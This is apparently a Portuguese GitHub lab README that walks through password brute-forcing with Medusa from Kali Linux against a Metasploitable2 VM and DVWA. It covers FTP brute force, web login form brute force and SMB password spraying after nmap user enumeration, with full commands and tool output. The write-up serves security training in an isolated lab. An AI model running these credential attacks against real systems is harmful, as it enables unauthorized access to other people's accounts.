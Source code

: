 # Ataque-de-Brute-Force-de-Senhas-com-Medusa-e-Kali-Linux
**Objetivo**: Neste projeto iremos simular um ataque de senha utilizando o recurso Medusa do Kali Linux.

---
## Conteúdo deste pacote
- `README.md` = Obtém a documentação e a explicação.
- `users.txt` = wordlist de usuários de exemplo.
- `pass.txt` = wordlist de senhas de exemplo.

---
## O que será preciso antes de começar
- `VirtualBox` = É uma máquina virtual usada para instalar os sistemas operacionais que serão necessários.
- `Kali Linux` = O Kali Linux é muito usado por conta das suas ferramentas de segurança e testes de penetração (atacante).
- `Metasploitable2` = máquina virtual intencionalmente vulnerável para treinamento e testes (alvo).

---
## Rede e atualização
### Atualização
**Abra o Kali Linux;** em seguida, abra um terminal e execute os comandos abaixo para atualizar o sistema e instalar as ferramentas necessárias.
```
sudo apt update && sudo apt upgrade -y
sudo apt install medusa hydra enum4linux smbclient smbmap net-tools tcpdump -y
```

### Rede
**Manter o Kali Linux e o Metasploitable2 na mesma rede: para verificar se ambas as máquinas encontram‑se na mesma rede**, abra um terminal no Kali e execute `ip a` (ou `ifconfig`, se disponível) para obter o endereço IP. Confirme que os endereços pertencem à mesma faixa de rede (por exemplo, `192.168.56.0/24`). Caso contrário, abra as **Configurações** → **Rede** da máquina virtual no VirtualBox e, em **Conectado a**, selecione **Host‑Only Adapter** ou **Rede Interna** para isolar o laboratório. Após a alteração, aplique as configurações e verifique novamente a conectividade.

**IPs de exemplo:**
- Kali: `192.168.56.101`
- Metasploitable2: `192.168.56.102`

---
### Ataques 
#### FTP força bruta (Medusa) 

**Executar Comando na ferramenta medusa**

`medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 4`

**O que faz:** Tenta autenticar no serviço FTP do host 192.168.56.101 usando combinações do `users.txt` e `pass.txt` das wordlists fornecidas.

**Saída**
```
┌──(kali㉿kali)-[~]
└─$ medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 4
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 4, 1 complete) Password: password (1 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: msfadmin (1 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 4, 1 complete) Password: 123456 (2 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 4, 2 complete) Password: msfadmin (3 of 4 complete)
2025-10-22 17:30:50 ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: 123456 (2 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: password (3 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: qwerty (4 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 4, 4 complete) Password: qwerty (4 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (3 of 4, 4 complete) Password: 123456 (1 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (3 of 4, 4 complete) Password: password (2 of 4 complete)
2025-10-22 17:30:51 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (4 of 4, 4 complete) Password: 123456 (1 of 4 complete)
2025-10-22 17:30:51 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: qwerty (3 of 4 complete)
2025-10-22 17:30:51 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: msfadmin (4 of 4 complete)
2025-10-22 17:30:55 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: password (2 of 4 complete)
2025-10-22 17:30:55 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: qwerty (3 of 4 complete)
2025-10-22 17:30:55 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: msfadmin (4 of 4 complete)
```
Percebe-se que, na linha 5 da saída, obtivemos um sucesso: usuário `msfadmin`, senha `msfadmin`.

**Verificação:** execute ftp 192.168.56.101 para confirmar.

Resultado esperado:
```
Connected to 192.168.56.102.
220 (vsFTPd 2.3.4)
Name (192.168.56.102:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
---
#### Força Bruta em Formulário Web (DVWA)

**Comando Executado:**
```
medusa -h 192.168.56.102 -u admin -P pass.txt -M http -m DIR=/dvwa/login.php -m FORM-DATA="username=%USER%&password=%PASS%&Login=Login" -v 4
```
**O que faz:** envia requisições de login HTTP ao endpoint /dvwa/login.php em 192.168.56.102, testando o usuário admin com as senhas do arquivo senhas.txt até encontrar uma combinação válida.

**Parâmetros-chave:** host -h, usuário -u admin, wordlist de senhas -P pass.txt, módulo -M http, endpoint -m DIR=/dvwa/login.php, corpo do formulário -m FORM-DATA=..., verbosidade -v 4.

**Resultado esperado:** abrir no navegador http://192.168.56.101/dvwa/login.php e testar as credenciais encontradas.
---
#### Password Spraying em Serviço SMB 

- **Passo 1:** Enumeração do usuário nmap
```
nmap --script smb-enum-users.nse -p 445 192.168.56.102
```
- Executa o Nmap usando um script que tenta enumerar usuários SMB no host 192.168.56.102, conectando na porta 445 (porta usada por SMB/CIFS).

- **Passo 2:** Executar Password Spraying com Medusa
```
medusa -h 192.168.56.102 -U usuarios_smb.txt -p msfadmin -M smbnt
```
- Tenta autenticar via SMB (NTLM) no host 192.168.56.102 usando cada usuário listado em usuarios_smb.txt, sempre com a mesma senha msfadmin.

- **Passo 3:** Validação
- Validar: ao encontrar credencial válida, usar smbclient ou outra ferramenta para conectar.
```
smbclient -L //192.168.56.101 -U usuario%senha
# ou
smbclient //192.168.56.101/share -U usuario%senha
```
---
## Conclusão

O experimento demonstrou que ataques de força bruta e password-spraying, executados em laboratório com Medusa e Kali, conseguiram identificar credenciais fracas no Metasploitable2 (ex.: msfadmin:msfadmin no FTP). Os testes evidenciaram problemas típicos: credenciais padrão não alteradas, ausência de limitação de tentativas e serviços legados expostos. Como prova, foram coletadas saída do atacante, logs do servidor e captura de tráfego (pcap) para correlação.



